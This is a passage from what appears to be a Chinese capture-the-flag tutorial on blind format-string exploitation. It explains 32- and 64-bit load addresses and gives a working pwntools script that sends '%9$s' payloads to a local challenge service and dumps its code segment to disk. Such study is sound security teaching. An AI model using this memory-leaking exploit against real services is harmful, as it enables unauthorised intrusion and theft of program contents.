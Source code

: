 #### 从程序加载地方开始

先来说省事的，**从程序加载地方开始**。程序加载地方 32 位和 64 位各不相同：

![](https://mrskye.cn-gd.ufileos.com/img/2020-06-26-CTSvll4wMcTxU1DR.png)

32 位：从 0x8048000 开始泄露

64 位：从 0x400000 开始泄露

下面是这条例题的泄露脚本，结合注解分析如何处理上面提到的问题：

```python
#! /usr/bin/env python 
# -*- coding: utf-8 -*- 
from pwn import *
import binascii

r = remote('127.0.0.1',10001)

def leak(addr):
    payload = "%9$s.TMP" + p32(addr)
    r.sendline(payload)
    print "leaking:", hex(addr)
    r.recvuntil('right:')
    ret = r.recvuntil(".TMP",drop=True)
    print "ret:", binascii.hexlify(ret), len(ret)
    remain = r.recvrepeat(0.2)
    return ret

# name
r.recv()
r.sendline('nameaaa')
r.recv()

# leak
begin = 0x8048000
text_seg =''
try:
    while True:
        ret = leak(begin)
        text_seg += ret
        begin += len(ret)
        if len(ret) == 0:   # nil
            begin +=1
            text_seg += '\x00'
except Exception as e:
    print e
finally:
    print '[+]',len(text_seg)
    with open('dump_bin','wb') as f:
        f.write(text_seg)
```
